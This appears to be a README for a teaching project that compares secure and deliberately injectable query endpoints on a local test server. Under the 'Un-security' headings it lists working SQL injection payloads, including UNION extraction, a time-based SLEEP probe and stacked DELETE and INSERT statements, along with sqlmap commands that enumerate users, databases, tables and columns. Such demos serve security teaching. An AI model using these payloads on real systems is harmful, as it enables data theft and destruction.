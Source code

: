 # Security Testing
## Update
- http://localhost:8086/security/update?id=c-1
## Single Query
- http://localhost:8086/security/query/single?id=c-1
## List Query
- http://localhost:8086/security/query/list?title=DEV

# Un-security Testing
## Update
- http://localhost:8086/un-security/update?id=c-1';INSERT INTO CUSTOMER(ID, NAME, TITLE) VALUES ('c-8','Roc','QA')-- ;[allowMultiQueries=true]
## Single Query
- http://localhost:8086/un-security/query/single?id=c-1' AND 'a'='a
- http://localhost:8086/un-security/query/single?id=c-1' OR 1=1 LIMIT 3,1-- ;
- http://localhost:8086/un-security/query/single?id=c-1' ORDER BY 3 -- ;
- http://localhost:8086/un-security/query/single?id=NOO' UNION SELECT * FROM PRODUCT limit 3,1-- ;
- http://localhost:8086/un-security/query/single?id=NOO' UNION SELECT DATABASE(), VERSION(), USER()-- ;
- http://localhost:8086/un-security/query/single?id=NOO' OR IF(1>0, SLEEP(10), 1)-- ;
## List Query
- http://localhost:8086/un-security/query/list?title=DEV' OR 'a'='a
- http://localhost:8086/un-security/query/list?title=NOO' LIMIT 0,100 -- ;
- http://localhost:8086/un-security/query/list?title=DEV' ORDER BY 3 -- ;
- http://localhost:8086/un-security/query/list?title=DEV' UNION SELECT * FROM PRODUCT-- ;
- http://localhost:8086/un-security/query/list?title=DEV';DELETE FROM CUSTOMER-- ;[allowMultiQueries=true]
- http://localhost:8086/un-security/query/list?title=DEV';INSERT INTO CUSTOMER(ID, NAME, TITLE) VALUES ('c-7','Ady','QA')-- ;[allowMultiQueries=true]
- http://localhost:8086/un-security/query/list?title=DEV';INSERT INTO PRODUCT(ID, NAME, TITLE) VALUES ('p-7','Vivo X200','Phone')-- ;[allowMultiQueries=true]

# How to execute multiple queries in a single statement in java
- spring.datasource.url=jdbc:mysql://host/database?allowMultiQueries=true

# SQLMAP
## Check if there is sql injection
- sqlmap -u http://localhost:8086/un-security/query/single?id=c-1
## Query users
- sqlmap -u http://localhost:8086/un-security/query/single?id=c-1 --users
## Query databases
- sqlmap -u http://localhost:8086/un-security/query/single?id=c-1 --dbs
## Query tables of a database
- sqlmap -u http://localhost:8086/un-security/query/single?id=c-1 -D <database> --tables
## Query columns of a table
- sqlmap -u http://localhost:8086/un-security/query/single?id=c-1 -D <database> -T <table> --columns
